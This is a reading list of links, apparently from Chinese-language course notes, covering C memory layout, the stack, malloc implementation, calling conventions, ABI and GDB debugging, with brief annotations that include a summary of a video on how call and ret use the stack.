* [Are We Shooting Ourselves in the Foot with Stack Overflow](http://embeddedgurus.com/state-space/2014/02/are-we-shooting-ourselves-in-the-foot-with-stack-overflow/)
* [Using GNU's GDB Debugger: Memory Layout And The Stack](http://www.dirac.org/linux/gdb/02a-Memory_Layout_And_The_Stack.php)
* [What is memory safety?](http://www.pl-enthusiast.net/2014/07/21/memory-safety/)
* [A Malloc Tutorial](http://www.inf.udec.cl/~leo/Malloc_tutorial.pdf)
* [Understanding the Stack](http://www.cs.umd.edu/class/sum2003/cmsc311/Notes/Mips/stack.html)
* [How Functions Work](http://www.slideshare.net/saumilshah/how-functions-work-7776073)
* [C Function Call Conventions and the Stack](http://www.csee.umbc.edu/~chang/cs313.s02/stack.shtml)
* [How Does a C Debugger Work? (GDB Ptrace/x86 example)](http://blog.0x972.info/?d=2014/11/13/10/40/50-how-does-a-c-debugger-work-gdb-ptracex86-example)
* [8 gdb tricks you should know](https://blogs.oracle.com/ksplice/entry/8_gdb_tricks_you_should)
* [A Quick Tutorial on Implementing and Debugging Malloc, Free, Calloc, and Realloc](http://danluu.com/malloc-tutorial/) (含 GDB 範例)
* [Understanding C by learning assembly](https://www.recurse.com/blog/7-understanding-c-by-learning-assembly)
* [Code Injection into Running Linux Application](http://www.codeproject.com/Articles/33340/Code-Injection-into-Running-Linux-Application)
* [Journey to the Stack, Part I](http://duartes.org/gustavo/blog/post/journey-to-the-stack/)
* [Anatomy of a Program in Memory](http://duartes.org/gustavo/blog/post/anatomy-of-a-program-in-memory/)
* [Why malloc+memset is slower than calloc?](https://stackoverflow.com/questions/2688466/why-mallocmemset-is-slower-than-calloc)
* [To Save C, We Must Save ABI](https://thephd.dev/to-save-c-we-must-save-abi-fixing-c-function-abi)
* [do you understand how "return" ACTUALLY works?](https://youtu.be/e46wHUjNDjE) 以動畫方式呈現 `call`/`ret` 指令如何操作 stack 與 program counter，並清楚區分「`ret` 管位址、`rax` 管資料」。影片中也以「hardcoded jump 為何行不通」和「lookup table 為何無法處理間接呼叫」的反面推導，引導觀眾理解 stack 作為返回位址儲存機制的必然性。
